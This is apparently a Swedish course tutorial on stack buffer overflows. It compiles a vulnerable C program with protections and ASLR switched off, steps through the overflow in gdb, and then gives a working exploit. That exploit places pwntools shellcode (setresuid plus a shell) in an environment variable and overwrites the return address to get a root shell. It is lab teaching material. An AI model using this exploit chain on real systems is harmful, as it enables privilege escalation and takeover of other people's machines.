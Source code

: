 

## Ex 1

Stäng av skydd

För att kompilera:
```sh
$ gcc -m32 -fno-stack-protector -no-pie -fno-pic -z execstack -o ex1 ex1.c
```

Vad flaggorna gör:
    - `-m32` - 32bitars kompilering
    - `-fno-stack-protector` - stäng av stack protection :)
    - `-z execstack` - stäng av no-exec-flaggor
    - `-fno-pie` - stäng av "position-independent executable"
    - `-fno-pic` - stäng av "position-independent code"

För att kunna köra behöver också ASLR stängas av:
```sh
$ sudo su
$ echo 0 > /proc/sys/kernel/randomize_va_space
```

När detta är gjort så kan vi köra programmet, och få samma adress varje gång
programmet körs.

Förhållandet mellan adresserna motsvarar också storleken på våra arrays

## Ex 2

Visa buffer-overruns

```sh
$ gcc -m32 -fno-stack-protector -fno-pie -fno-pic -z execstack -mpreferred-stack-boundary=2 -o ex2 ex2.c
$ ./ex2 $(python -c 'print "A"*51')
```

Vi skriver in mer än 50 tecken i buf2, allting däröver hamnar i buf1 (och vidare på stacken)

`./ex2 $(python -c 'print "A"*103')` - här skriver vi över våran integer också

Vi kollar vad programmet gör:

```
$ gdb ./ex2

# Visa assemblerkoden för main
(gdb) x/50i main
   0x804849e <main>:    lea    0x4(%esp),%ecx
   0x80484a2 <main+4>:  and    $0xfffffff0,%esp
   0x80484a5 <main+7>:  pushl  -0x4(%ecx)
   0x80484a8 <main+10>: push   %ebp
   0x80484a9 <main+11>: mov    %esp,%ebp
   0x80484ab <main+13>: push   %ecx
   0x80484ac <main+14>: sub    $0x4,%esp
   0x80484af <main+17>: mov    %ecx,%eax
   0x80484b1 <main+19>: cmpl   $0x2,(%eax)
   0x80484b4 <main+22>: je     0x80484d3 <main+53>
   0x80484b6 <main+24>: mov    0x4(%eax),%eax
   0x80484b9 <main+27>: mov    (%eax),%eax
   0x80484bb <main+29>: sub    $0x8,%esp
   0x80484be <main+32>: push   %eax
   0x80484bf <main+33>: push   $0x80485ac
   0x80484c4 <main+38>: call   0x8048300 <printf@plt>
   0x80484c9 <main+43>: add    $0x10,%esp
   0x80484cc <main+46>: mov    $0xffffffff,%eax
   0x80484d1 <main+51>: jmp    0x80484ec <main+78>
   0x80484d3 <main+53>: mov    0x4(%eax),%eax
   0x80484d6 <main+56>: add    $0x4,%eax
   0x80484d9 <main+59>: mov    (%eax),%eax
   0x80484db <main+61>: sub    $0xc,%esp
   0x80484de <main+64>: push   %eax
   0x80484df <main+65>: call   0x804843b <copystr>
   0x80484e4 <main+70>: add    $0x10,%esp
   0x80484e7 <main+73>: mov    $0x0,%eax
   0x80484ec <main+78>: mov    -0x4(%ebp),%ecx
   0x80484ef <main+81>: leave
   0x80484f0 <main+82>: lea    -0x4(%ecx),%esp
   0x80484f3 <main+85>: ret

# Visa assemblerkoden för copystr
(gdb) x/50i copystr
   0x804843b <copystr>: push   %ebp
   0x804843c <copystr+1>:       mov    %esp,%ebp
   0x804843e <copystr+3>:       sub    $0x84,%esp
   0x8048444 <copystr+9>:       pushl  0x8(%ebp)
   0x8048447 <copystr+12>:      lea    -0x84(%ebp),%eax
   0x804844d <copystr+18>:      push   %eax
   0x804844e <copystr+19>:      call   0x8048310 <strcpy@plt>
   0x8048453 <copystr+24>:      add    $0x8,%esp
   0x8048456 <copystr+27>:      mov    -0x4(%ebp),%eax
   0x8048459 <copystr+30>:      push   %eax
   0x804845a <copystr+31>:      lea    -0x4(%ebp),%eax
   0x804845d <copystr+34>:      push   %eax
   0x804845e <copystr+35>:      push   $0x8048560
   0x8048463 <copystr+40>:      call   0x8048300 <printf@plt>
   0x8048468 <copystr+45>:      add    $0xc,%esp
   0x804846b <copystr+48>:      lea    -0x44(%ebp),%eax
   0x804846e <copystr+51>:      push   %eax
   0x804846f <copystr+52>:      lea    -0x44(%ebp),%eax
   0x8048472 <copystr+55>:      push   %eax
   0x8048473 <copystr+56>:      push   $0x804856e
   0x8048478 <copystr+61>:      call   0x8048300 <printf@plt>
   0x804847d <copystr+66>:      add    $0xc,%esp
   0x8048480 <copystr+69>:      lea    -0x84(%ebp),%eax
   0x8048486 <copystr+75>:      push   %eax
   0x8048487 <copystr+76>:      lea    -0x84(%ebp),%eax
   0x804848d <copystr+82>:      push   %eax
   0x804848e <copystr+83>:      push   $0x804857d
   0x8048493 <copystr+88>:      call   0x8048300 <printf@plt>
   0x8048498 <copystr+93>:      add    $0xc,%esp
   0x804849b <copystr+96>:      nop
   0x804849c <copystr+97>:      leave
   0x804849d <copystr+98>:      ret


# Kort genomgång av starten av funktionen:
push   %ebp        - Lägg till vår framepointer på stacken
mov    %esp,%ebp   - Kopiera framepointer till stackpointer
sub    $0x84,%esp  - Gör plats på stacken för 0x84 = 132 bytes
132 bytes:
buf2[64]  64 bytes
buf1[64]  64 bytes
int x      4 bytes

Efter detta kommer på stacken:
frameptr   4 bytes  (%ebp som vi la dit)
retptr     4 bytes  (dit funktionen ska returnera)


# Stoppa i funktionen copystr, och kör igång
(gdb) break copystr
(gdb) run "`python -c 'print "A"*(64+64+4+4+4)'`"

# Visa våra register, och var vi är i asm-koden
(gdb) tui enable
(gdb) layout asm
(gdb) layout regs

# stegar framåt
(gdb) nexti
...
till <copystr+15>

# Skriv ut 2 'words' i hex från vår stack
(gdb) x/2xw $esp
0xffffcde4:     0xffffd141      0xf7fd3b48

# Visa vårat argument
(gdb) x/s 0xffffd141
0xffffd141:     'A' <repeats 140 times>

# Sätt breakpoint på 'ret', och gå dit
(gdb) break \*copystr+98
(gdb) c

(gdb) x/2xw $esp
0xffffce5c:     0x41414141      0xffffd100
(gdb) c
Program received signal SIGSEGV, Segmentation fault.                                                                   
Cannot access memory at address 0x41414141 
```

## Ex 3

Hur vi exploaterar föregående exempel:

Vad vi vet:
 - Att våra variabler tar upp 132 bytes
 - Därefter kommer 4 bytes framepointer
 - Därefter kommer returadressen

Vi lägger in våran kod i en miljövariabel, tillsammans med
massa NOP-instruktioner.

Vi tar sedan reda på adressen till denna variabel, och fyller hela vår buffer
upp till 'ret' med denna adress, så att när 'ret' körs, så kommer våran kod i miljövariabeln
att köras istället.

Kod till get-shellcode.py (skapar en shellcode, och lägger i miljövariabeln 'EGG')
```python
# -*- coding: utf-8 -*-
from pwnlib.asm import asm
from pwnlib.shellcraft.i386.linux import sh, setresuid
import os

instructions = sh()
print("Assembler instructions for shellcode:")
print(instructions)


shellcode = asm(setresuid(0, 0, 0)) + asm(instructions)
# Lägg till no-op instruktioner, så att vi får större träffyta
maxlen = 50000
nopsled = '\x90'*(maxlen - len(shellcode))
shellcode = nopsled + shellcode

os.environ['EGG'] = shellcode

print("Shellcode is now in EGG")
print("Now, run ./getenvaddr EGG <progname> to get address")
os.system("/bin/bash")
```

Kod till getenvaddr: (kompileras med `gcc -m32 -o getenvaddr getenvaddr.c`)
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```


```sh
$ python get-shellcode.py
...

$ ./getenvaddr EGG ./ex2
EGG will be at 0xffff10c1

$ ./ex2 $(python -c "print ('c110ffff'.decode(hex))*(142/4)")
envp: 0xffff0c90
x: 0xffff0bd8
buf1: 0xffff0b98
buf2: 0xffff0b58
# whoami
root
```
